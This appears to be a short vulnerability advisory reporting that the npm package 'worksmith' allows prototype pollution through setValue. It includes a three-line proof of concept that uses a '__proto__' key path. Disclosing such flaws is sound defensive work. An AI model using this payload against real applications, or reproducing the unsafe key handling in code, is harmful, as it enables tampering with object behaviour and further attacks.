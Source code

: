 # Overview

`worksmith` is a purely functional workflow engine, this package is vulnerable to Prototype Pollution via the setValue function.

# Proof of Concept
```
const worksmith = require('worksmith'); 
worksmith.setValue({}, '__proto__.polluted', true); 
console.log(polluted); // true
```